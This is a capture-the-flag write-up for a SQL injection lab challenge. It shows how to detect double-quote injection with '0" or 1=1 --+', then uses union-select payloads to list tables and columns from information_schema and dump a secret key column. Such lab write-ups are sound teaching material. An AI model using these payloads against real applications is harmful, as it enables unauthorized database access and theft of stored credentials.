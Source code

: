 ## Challenge - 4

This challenge is similar to the previous three challenges and we have 14 tries to dump the secret key

### Initial Analysis

Here also we have to find  how the developer has given the query so we try giving id the values

```sql
0' or 1=1 --+
```

which doesn't give any output and id=

```sql
0" or 1=1 --+
```

gives an output which means the query should be like

```sql
select login_name,password from table_name where id="input"
```

### Solving

Now we can find table name like in the previous problem using

```sql
0" union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='CHALLENGES'; --+
```

which gives us the table name :

**fgwsudgyn2**

Now we can find the columns in the table using 

```sql
0" union select 1,2,group_concat(column_name) from information_schema.columns where table_name='fgwsudgyn2' and table_schema='CHALLENGES'; --+
```

we get 4 column names:

**id,sessid,secret_90AH,tryy**

The secret key can be in any of these columns but we can always go for the most suspicious one and print the secret key using:

```sql
0" union select 1,2,group_concat(secret_90AH) from fgwsudgyn2; --+
```

We get the secret key:

**ji9RMwjJ3TKkFPrXK5F26Zo7**

